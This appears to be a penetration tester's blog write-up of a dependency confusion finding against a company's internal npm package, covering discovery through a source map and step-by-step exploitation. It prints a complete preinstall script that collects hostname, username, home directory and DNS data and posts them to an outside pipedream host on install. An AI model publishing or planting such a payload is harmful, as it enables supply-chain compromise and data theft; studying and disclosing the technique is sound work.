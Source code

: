 ```yaml
---
title: "Dependency Confusion Attack: A Route to RCE"
date: 2023-08-31 12:00:00 +0900
categories: [web]
tags: [web, rce]
comments: false
description: "This blog covers the Dependency Confusion Attack"
---
```



Hello, amazing hackers! Today, I'm explaining one of my recent findings: the dependency confusion attack and how it can lead to remote code execution. This vulnerability was discovered during a private pen-test engagement.

---

### What is Dependency Confusion?

* A Dependency Confusion attack or supply chain substitution attack occurs when a software installer script is tricked into pulling a malicious code file from a public repository (e.g. NPM, PIP, RUBYGEMS, MVN etc.) instead of the intended file of the same name from an internal repository. The attacker can upload a package with a higher version number to the public repository.

* In this blog, we are focusing on the **NPM** package dependency. The Dependency confusion vulnerability was discovered by [Alex Brisan](https://twitter.com/alxbrsn) and it is explained very in-depth in his [writeup](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610).

### Discovery

* The primary use case of the application was to analyze financial data submitted by users. During recon, I always prefer to manually review JavaScript files. While going through the HTTP requests related to JS files in Burp Suite, I observed an **app.randomnumbers.js.map** (source map) file.

* Generally, source map files are used for debugging purposes by developers. It is mapping between minified JS files and their original source JS files. I started reviewing the JS source map file and discovered some Node.js packages by searching for keywords such as `import`, `require`, and `node_modules`.

```javascript
//app.randomnumber.js.map
import {
    NameSpaces
}
from '../constants/namespaces';
import store from '../redux-store/store';
const { Trackevaluator } = require('ORGNAME-trackevaluator'); // Here ORGNAME indicates company name
const Context = require('./context').Context;
const ReferralContext = require('./referral.context').ReferralContext;
const evaluate = new Trackevaluator();
const camelize = (obj) => _.transform(obj, (acc, value, key, target) => {
    const camelKey = _.isArray(target) ? key : _.camelCase(key);
     acc[camelKey] = _.isObject(value) ? camelize(value) : value;
});
```
* During the analysis of the file, a package named `ORGNAME-trackevaluator` was found, as shown in the code snippet above. While searching this package on the [npmjs.com](https://www.npmjs.com/) gave 0 results, indicating a potential vulnerability to a dependency confusion attack.

![nopackagenpm](/assets/img/NPM2.png)
_package not found_

> NPM packages can also be found in the **package.json** and **package-lock.json** files. 
{: .prompt-tip }
* Instead of manually checking each package, we can use the tool called [confused](https://github.com/visma-prodsec/confused) to identify packages that are not hosted on public repositories.


### Exploitation

1. Create a package using `npm init` command. Make sure to provide higher version number during creation process of the package. 
2. In the **package.json** file, add the command `"preinstall" : "node index.js"` under `"scripts"` parameter as shown in below snippet.

    ![package.json_codesnippet](/assets/img/NPM1.png)
    _package.json file_

3. Create **index.js** file with mentioned below code. Make sure to change the hostname with your burpcollaborator or pipedream domain in the code.

```javascript
//index.js
//author:- whitehacker003@protonmail.com
const os = require("os");
const dns = require("dns");
const querystring = require("querystring");
const https = require("https");
const packageJSON = require("./package.json");
const package = packageJSON.name;

const trackingData = JSON.stringify({
    p: package,
    c: __dirname,
    hd: os.homedir(),
    hn: os.hostname(),
    un: os.userInfo().username,
    dns: dns.getServers(),
    r: packageJSON ? packageJSON.___resolved : undefined,
    v: packageJSON.version,
    pjson: packageJSON,
});

var postData = querystring.stringify({
    msg: trackingData,
});

var options = {
    hostname: "eoty85f2nvs15dudw.m.pipedream.net", //replace burpcollaborator.net with Interactsh or pipedream
    port: 443,
    path: "/",
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
        "Content-Length": postData.length,
    },
};

var req = https.request(options, (res) => {
    res.on("data", (d) => {
        process.stdout.write(d);
    });    
});

req.on("error", (e) => {
    // console.error(e);
});

req.write(postData);
req.end();
```

{:start="4"}
4. Publish the package using `npm publish` command. Verify the published package on the npm public repository.

    ![npm1](/assets/img/NPM3.png)
    _package is hosted on the npm website_

5. The preinstall script will execute `node index.js` command. Once package is installed on the system.

* After sometime of uploading the package, I received pingbacks containing the **hostname**, **directory**, **IP address**, and **username** from many systems on my server. This was fixed quickly by the developers, once it was reported.

![npmpingback](/assets/img/NPM4.png)
_remote code execution_


### Impact

* A Dependency Confusion attack, whether opportunistic or targeted, can result in widespread infections among a vendor's customers. This can empower attackers to execute unauthorized access, steal data, deploy ransomware which disrupt operations.

### References

* [Dependency Confusion: How I Hacked Into Apple, Microsoft and Dozens of Other Companies](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610)

* [Dependency Confusion](https://dhiyaneshgeek.github.io/web/security/2021/09/04/dependency-confusion/)

* [Dependency Confusion Attack – What, Why, and How?](https://redhuntlabs.com/blog/dependency-confusion-attack-what-why-and-how/)


